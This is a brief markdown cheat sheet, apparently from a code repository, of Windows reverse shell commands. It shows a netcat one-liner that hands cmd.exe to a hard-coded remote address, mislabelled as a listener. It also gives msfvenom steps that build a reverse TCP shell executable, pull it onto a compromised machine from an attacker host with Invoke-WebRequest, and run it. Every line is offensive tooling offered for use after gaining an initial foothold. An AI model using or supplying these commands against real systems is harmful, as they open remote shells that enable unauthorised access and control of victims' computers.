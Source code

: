 ## Netcat listener
``` bash
nc.exe 10.23.103.105 4443 –e cmd.exe
```

## MsfVenom Reverse Shell:
``` bash
#move to target machine after established nc foothold
msfvenom -p windows/shell_reverse_tcp LHOST=<Your_Attacker_IP> LPORT=<Your_Port> -f exe > shell.exe
#on windows:
Invoke-WebRequest -Uri http://<Attack_ip>:<PORT>/shell.exe -Outfile shell.exe
#run
.\shell.exe
```